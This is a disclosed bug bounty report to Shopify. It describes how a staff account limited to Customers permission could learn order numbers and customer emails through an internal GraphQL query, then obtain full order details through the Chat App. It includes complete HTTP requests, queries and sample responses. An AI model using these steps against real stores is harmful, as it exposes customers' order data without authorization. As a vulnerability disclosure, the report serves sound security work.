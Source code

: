 # Orders full read for a staff with only `Customers` permissions.

## Report Details
- **Report ID**: 1392032
- **URL**: https://hackerone.com/reports/1392032
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-11-05T05:21:35.036Z
- **Disclosed**: 2022-02-10T19:34:50.345Z

## Reporter
- **Username**: scaramouche31
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Summary:
A staff with only `Customers` permission can get full information about shop's orders. I consider it as an issue, because in Shopify's documentation it is explicitly said that you must have `Orders` (`read_orders`) permissions to be able to read shop's orders:
{F1504156} 
https://shopify.dev/api/usage/access-scopes

Prerequisite:
1. Shopify Chat App must be installed

## Steps To Reproduce:
1. Create a staff with only `Customers` permission.
2. As a staff use this query in your shop:

```
POST /admin/internal/web/graphql/core HTTP/2
Host: scara31-store4.myshopify.com
Cookie: _secure_admin_session_id=████; _secure_admin_session_id_csrf=██████; _master_udr=eyJfcmFpbHMiOnsibWVzc2FnZSI6IkJBaEpJaWxtTldaaU5tWTFOQzFpT0RjMExUUTRZV010WVdWbVpTMWpORGMyTWpFek9HTXpPRE1HT2daRlJnPT0iLCJleHAiOiIyMDIzLTExLTA1VDAyOjA2OjA0LjIzNFoiLCJwdXIiOiJjb29raWUuX21hc3Rlcl91ZHIifX0%3D--da4b3109537545abe8f385374146855a201c8e06; new_admin=1; koa.sid=███████; koa.sid.sig=█████; identity-state=BAhbAA%3D%3D--db43e3715865ca03e3123219ec91e34189be9380; localization=; cart_currency=USD; secure_customer_sig=; _secure_session_id=32a319afefb4a8db65b18c31bcef06c9; _orig_referrer=; _landing_page=%2Fpassword; _y=43c1de8a-a87e-4df0-9359-c9d280c8870e; _s=9591d751-2bb8-4b5e-a679-5d2909ed1aee; _shopify_y=43c1de8a-a87e-4df0-9359-c9d280c8870e; _shopify_s=9591d751-2bb8-4b5e-a679-5d2909ed1aee; _ab=1; __ssid=43a93231-9d89-439b-aed1-824ac0b6e93d
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Shopify-Web-Force-Proxy: 1
X-Csrf-Token: Xs1twjjo-U9Q9RgMvDrLMuEPTa-Xeyj3TKCw
Origin: https://scara31-store4.myshopify.com
Content-Length: 156
Dnt: 1
Te: trailers

{
"query":"query MyQuery { node(id: \"gid://shopify/Customer/5639003504696\") { ... on HasEvents { events(first: 10) { edges { node { message } } } } } }"
}
```


You can get customer's ID from Customers page. Use a customer that has some orders.
3. Observe the response, which will contain something like this:

```
"node":{
    "message":"Order Confirmation email for order \u003ca href=\"https:\/\/scara31-store4.myshopify.com\/admin\/orders\/4242972409912\"\u003e#1001\u003c\/a\u003e sent to this customer (aaa@aa.com)."
}
```


From this response we can get customer's order number `#1001` and email `aaa@aa.com`.
4. With installed Shopify Chat App go to the storefront -> Chat App -> Can I get an update on my order status? -> Enter order information
5. Use the information about order you got earlier, follow the generated link and receive full information about order.

To make sure, that it is not an intended behaviour, use this query as a staff to get price of the order you earlier accesed:
```
POST /admin/internal/web/graphql/core HTTP/2
Host: scara31-store4.myshopify.com
Cookie: _secure_admin_session_id=███; _secure_admin_session_id_csrf=███; _master_udr=eyJfcmFpbHMiOnsibWVzc2FnZSI6IkJBaEpJaWxtTldaaU5tWTFOQzFpT0RjMExUUTRZV010WVdWbVpTMWpORGMyTWpFek9HTXpPRE1HT2daRlJnPT0iLCJleHAiOiIyMDIzLTExLTA1VDAyOjA2OjA0LjIzNFoiLCJwdXIiOiJjb29raWUuX21hc3Rlcl91ZHIifX0%3D--da4b3109537545abe8f385374146855a201c8e06; new_admin=1; koa.sid=████████; koa.sid.sig=███; identity-state=BAhbAA%3D%3D--db43e3715865ca03e3123219ec91e34189be9380; localization=; cart_currency=USD; secure_customer_sig=; _secure_session_id=32a319afefb4a8db65b18c31bcef06c9; _orig_referrer=; _landing_page=%2Fpassword; _y=43c1de8a-a87e-4df0-9359-c9d280c8870e; _s=9591d751-2bb8-4b5e-a679-5d2909ed1aee; _shopify_y=43c1de8a-a87e-4df0-9359-c9d280c8870e; _shopify_s=9591d751-2bb8-4b5e-a679-5d2909ed1aee; _ab=1; __ssid=43a93231-9d89-439b-aed1-824ac0b6e93d
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Shopify-Web-Force-Proxy: 1
X-Csrf-Token: Xs1twjjo-U9Q9RgMvDrLMuEPTa-Xeyj3TKCw
Origin: https://scara31-store4.myshopify.com
Content-Length: 153
Dnt: 1
Te: trailers

{
"query":"query MyQuery { node(id: \"gid://shopify/Order/4287851397176\") { ... on Order { id, totalPrice } } }"
}
```

As a response you'll get:
```
"message":"Access denied for totalPrice field. Required access: `read_orders` access scope."
```


Possible remediation:
Order's number should not be leaked to a staff with only `Customers` permissions.

## Impact

A full access to Shop's Orders, which leads to sensitive Information Disclosure.

## Attachments
- _________.png
